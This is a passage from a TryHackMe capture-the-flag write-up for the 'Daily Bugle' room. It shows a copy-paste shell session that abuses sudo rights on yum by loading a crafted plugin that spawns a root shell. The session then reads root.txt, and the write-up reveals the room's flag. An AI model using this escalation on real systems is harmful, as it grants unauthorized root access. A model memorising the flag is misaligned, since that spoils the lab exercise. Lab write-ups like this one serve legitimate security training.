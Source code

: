 ```shell-session
# Just copy-paste into shell:
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
sh-4.2# whoami
root

sh-4.2# cd /root
sh-4.2# ls
anaconda-ks.cfg  root.txt
sh-4.2# cat root.txt 
eec3d53292b1821868266858d7fa6f79
```

> What is the root flag?
> 
> Answer: `eec3d53292b1821868266858d7fa6f79`


## Conclusion
If this writeup helps, please consider following me on [github](https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Room: [Daily Bungle](https://tryhackme.com/room/dailybugle)

